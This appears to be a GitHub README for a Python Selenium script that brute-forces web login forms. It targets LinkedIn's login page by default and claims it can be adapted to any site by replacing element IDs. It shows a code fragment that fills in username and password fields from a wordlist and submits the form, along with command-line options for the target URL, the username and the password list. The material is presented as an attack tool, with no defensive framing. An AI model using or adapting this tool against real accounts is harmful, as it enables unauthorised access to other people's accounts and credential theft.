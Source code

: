 # Selenium-Brute-Force
A simple python script for doing brute-force attack using selenium.

## Help
- The default script is useful for Linkedin, but it works for everything. For other platforms, it needs to extract username id, password id, and login button class using browser inspector.
![](https://github.com/mohammadkamrani/Selenium-Brute-Force/blob/main/2021-01-20_14-43-37.jpg)<br />
<br />
put them in code.
```python
username = driver.find_element_by_id("username")		
username.clear()
print("username: "+curuser)
username.send_keys(curuser)		
password = driver.find_element_by_id("password")
password.clear()
print("password: "+passw+"\n")
password.send_keys(passw)			
driver.find_element_by_class_name('login__form_action_container').click()
```
- -h, --help  show this help message and exit
- -t    target's url: https://www.linkedin.com/uas/login
- -u    username
- -p    wordlist: for example password.txt

![](https://github.com/mohammadkamrani/Brute-Force/blob/main/ezgif.com-video-to-gif.gif)

